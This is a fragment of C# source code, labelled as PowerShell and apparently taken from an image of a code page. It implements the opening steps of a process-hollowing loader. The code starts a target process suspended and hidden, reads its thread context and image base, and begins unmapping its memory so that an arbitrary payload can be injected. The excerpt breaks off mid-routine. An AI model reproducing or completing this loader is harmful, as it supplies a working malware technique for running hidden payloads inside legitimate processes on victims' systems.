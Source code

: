 ``` powershell
        private delegate int VirtualAllocEx_Delegate(IntPtr handle, int address, int length, int type, int protect);
        private delegate bool WriteProcessMemory_Delegate(IntPtr process, int baseAddress, byte[] buffer, int bufferSize, ref int bytesWritten);
        private delegate uint ResumeThread_Delegate(IntPtr hThread);
        private delegate bool SetThreadContext_Delegate(IntPtr thread, int[] context);
        private delegate bool Wow64SetThreadContext_Delegate(IntPtr thread, int[] context);
        #endregion

        public static void Run(string TargetPath, byte[] Payload)
        {
            int i = 0;
            while (i < 5)
            {
                int readWrite = 0x0;
                StartupInformation si = new StartupInformation();
                ProcessInformation pi = new ProcessInformation();
                si.Size = Convert.ToUInt32(Marshal.SizeOf(typeof(StartupInformation)));
                try
                {
                    CreateProcess_Delegate CreateProc = new CreateProcess_Delegate(CreateProcessA);
                    if (!CreateProc(TargetPath, string.Empty, IntPtr.Zero, IntPtr.Zero, false, 0x00000004 | 0x08000000, IntPtr.Zero, null, ref si, ref pi))
                    {
                        throw new Exception();
                    }
                    int fileAddress = BitConverter.ToInt32(Payload, 0x3C);
                    int imageBase = BitConverter.ToInt32(Payload, fileAddress + 0x34);
                    int[] context = new int[0xB3];
                    context[0x0] = 0x10002;
                    if (IntPtr.Size == 0x4)
                    {
                        GetThreadContext_Delegate GetThread = new GetThreadContext_Delegate(GetThreadContext);
                        if (!GetThread(pi.ThreadHandle, context))
                        {
                            throw new Exception();
                        }
                    }
                    else
                    {
                        Wow64GetThreadContext_Delegate Wow64GetThread = new Wow64GetThreadContext_Delegate(Wow64GetThreadContext);
                        if (!Wow64GetThread(pi.ThreadHandle, context))
                        {
                            throw new Exception();
                        }
                    }
                    int ebx = context[0x29];
                    int baseAddress = 0x0;
                    ReadProcessMemory_Delegate ReadProcessMem = new ReadProcessMemory_Delegate(ReadProcessMemory);
                    if (!ReadProcessMem(pi.ProcessHandle, ebx + 0x8, ref baseAddress, 0x4, ref readWrite))
                    {
                        throw new Exception();
                    }
                    if (imageBase == baseAddress)
                    {
                        ZwUnmapViewOfSection_Delegate ZwUnmapView = new ZwUnmapViewOfSection_Delegate(ZwUnmapViewOfSection);
                        if (ZwUnmapView(pi.ProcessHandle, baseAddress) != 0x0)
                        {
```